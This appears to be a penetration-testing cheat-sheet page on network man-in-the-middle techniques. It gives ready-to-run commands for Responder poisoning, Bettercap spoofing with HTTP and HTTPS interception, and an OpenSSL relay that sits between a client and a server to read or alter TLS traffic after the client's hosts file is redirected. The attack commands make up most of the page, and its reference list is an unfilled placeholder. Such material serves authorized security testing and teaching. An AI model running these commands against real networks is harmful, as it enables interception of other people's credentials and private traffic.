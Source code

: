 ## Responder

```powershell
responder -I eth0 -A # see NBT-NS, BROWSER, LLMNR requests without responding.
responder.py -I eth0 -wrf
```

Alternatively you can use the [Windows version](https://github.com/lgandx/Responder-Windows)

## Bettercap

```powershell
bettercap -X --proxy --proxy-https -T <target IP>
# better cap in spoofing, discovery, sniffer
# intercepting http and https requests,
# targetting specific IP only
```

## SSL MITM with OpenSSL
This code snippet allows you to sniff/modify SSL traffic if there is a MITM vulnerability using only openssl.
If you can modify `/etc/hosts` of the client:
```powershell
sudo echo "[OPENSSL SERVER ADDRESS] [domain.of.server.to.mitm]" >> /etc/hosts  # On client host
```
On our MITM server, if the client accepts self signed certificates (you can use a legit certificate if you have the private key of the legit server):
```powershell
openssl req -subj '/CN=[domain.of.server.to.mitm]' -batch -new -x509 -days 365 -nodes -out server.pem -keyout server.pem
```
On our MITM server, we setup our infra:
```powershell
mkfifo response
sudo openssl s_server -cert server.pem -accept [INTERFACE TO LISTEN TO]:[PORT] -quiet < response | tee | openssl s_client -quiet -servername [domain.of.server.to.mitm] -connect[IP of server to MITM]:[PORT] | tee | cat > response
```
In this example, traffic is only displayed with `tee` but we could modify it using `sed` for example.

## References

* [TODO](TODO)
